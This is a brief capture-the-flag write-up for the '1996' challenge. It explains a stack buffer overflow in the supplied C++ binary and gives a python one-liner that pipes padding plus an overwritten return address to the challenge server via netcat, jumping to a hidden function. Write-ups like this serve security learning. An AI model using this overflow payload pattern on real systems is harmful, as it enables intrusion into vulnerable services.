 Challenge 1996
==============

42 Points -> very easy

# Challenge
It's 1996 all over again!
nc 35.207.132.47 22227

The challenge also contains a zip file with the source and the binary of the application behind the given network address.

# Solution
The C++ code shows an obvious buffer overflow. With the input that can be given to the program, the buffer overflow can be exploited and the pointer to the "hidden" function can be put into the memory to execute and unintended jump. All it takes is a little bit of python:

```
(python -c "print '\x00'*1048+ '\x97\x08\x40\x00\x00\x00\x00\x00'"; cat -) | nc 35.207.132.47 22227
```
